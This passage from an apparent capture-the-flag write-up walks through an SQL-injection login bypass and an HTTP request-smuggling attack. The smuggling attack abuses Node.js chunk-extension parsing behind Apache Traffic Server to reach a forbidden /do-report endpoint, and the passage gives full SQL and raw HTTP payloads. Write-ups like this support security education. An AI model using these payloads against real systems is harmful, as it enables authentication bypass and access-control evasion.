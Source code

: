 will cause the following SQL query to be executed:

```sql
SELECT * FROM users WHERE email = `email` = 1 AND password = `password` = 1
```

which simplifies to

```sql
SELECT * FROM users WHERE 1 = 1 AND 1= 1
```

This allows us to authenticate successfully and gain access to the application.

### Part 2 - HTTP Request Smuggling

Once we gain access to the application, we would see a "Report Issue" feature which allows us to "submit a URL for the admin to check".

Yet, when we submit any URL, we are presented with the following error:

> Forbidden. Only local administrators can report issues for now.

Now is probably a good time to notice that the Express application is put behind a reverse proxy (Apache Traffic Server). The `remap.config` file specifies the URL mappings, and we could see that the `/do-report` endpoint is mapped to `/forbidden`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

This access control mechanism prevents us from making a request to `/do-report`, unless we are doing so without going through the proxy.

Looking at the versions of Node.js and ATS used, we could find information on a HTTP request smuggling [issue](https://portswigger.net/daily-swig/node-js-was-vulnerable-to-a-novel-http-request-smuggling-technique) in the incorrect parsing of chunk extensions.

While a PoC is available, participants would need to modify it to suit this particular context.

Consider the following request, where each new line is delimited by `\r`.

```http
GET / HTTP/1.1\r\n
Host: localhost:8080\r\n
Transfer-Encoding: chunked\r\n
\r\n
3;\nxxx\r\n
139\r\n
0\r\n
\r\n
POST /do-report HTTP/1.1\r\n
Host: localhost:8080\r\n
Content-Length: 103\r\n
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU\r\n
Content-Type: application/json\r\n
\r\n
{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}\r\n
0\r\n
\r
```
